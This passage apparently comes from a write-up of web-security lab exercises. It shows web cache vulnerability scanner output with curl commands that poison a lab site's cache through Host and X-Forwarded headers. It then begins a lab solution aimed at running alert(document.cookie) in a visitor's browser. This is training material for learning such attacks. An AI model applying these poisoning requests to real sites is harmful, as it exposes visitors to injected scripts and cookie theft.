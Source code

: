 Output:
```shell
...
WCVS v1.3.3 started at 2025-03-02_18-04-00
Exported report ./2025-03-02_18-04-00_WCVS_Report.json
...
[+] [Host] was successfully poisoned! cbwcvs: 977732862081 poison: [:31337]
[+] URL: https://my.web-security-academy.net/?cbwcvs=977732862081
[+] Reason: Response Body contained :31337
[+] Curl: curl -X 'GET' -H 'Cookie: session=244dGcu8uTWdYksA3KdRdeJ7uYr0uir1' -H 'User-Agent: WebCacheVulnerabilityScanner v1.3.3' -H 'Host: my.web-security-academy.net:31337' 'https://my.web-security-academy.net/?cbwcvs=977732862081'
...
[+] [X-Forwarded-Host X-Forwarded-Scheme] was successfully poisoned! cbwcvs: 390503664422 poison: [787683012570 nothttps]
[+] URL: https://my.web-security-academy.net/?cbwcvs=390503664422
[+] Reason: Response Body contained 787683012570
[+] Curl: curl -X 'GET' -H 'Cookie: session=244dGcu8uTWdYksA3KdRdeJ7uYr0uir1' -H 'User-Agent: WebCacheVulnerabilityScanner v1.3.3' -H 'X-Forwarded-Host: 787683012570' -H 'X-Forwarded-Scheme: nothttps' 'https://my.web-security-academy.net/?cbwcvs=390503664422'
...
 --------------------------------------------------------------
| Header Poisoning
 --------------------------------------------------------------
Testing 1118 headers
[!] Unexpected Status Code 421 for 1st request of header Host
[*] header X-Forwarded-Host: Response Body contained 778851969458

[+] Header X-Forwarded-Host was successfully poisoned! cbwcvs: 688019006856 poison: 778851969458
[+] URL: https://my.web-security-academy.net/?cbwcvs=688019006856
[+] Reason: Response Body contained 778851969458
[+] Curl: curl -X 'GET' -H 'Cookie: session=244dGcu8uTWdYksA3KdRdeJ7uYr0uir1' -H 'User-Agent: WebCacheVulnerabilityScanner v1.3.3' -H 'X-Forwarded-Host: 778851969458' 'https://my.web-security-academy.net/?cbwcvs=688019006856'
...
```

## Web cache poisoning with multiple headers
![Awesome Badges](https://img.shields.io/badge/level-practitioner-blue)

This lab contains a web cache poisoning vulnerability that is only exploitable when you use multiple headers to craft a malicious request. 

A user visits the home page roughly once a minute. 

To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

#### Solution

1. Open app and investigate (Click on everything and then look at HTTP History).
	   - Notice Request for `/resources/js/tracking.js`.
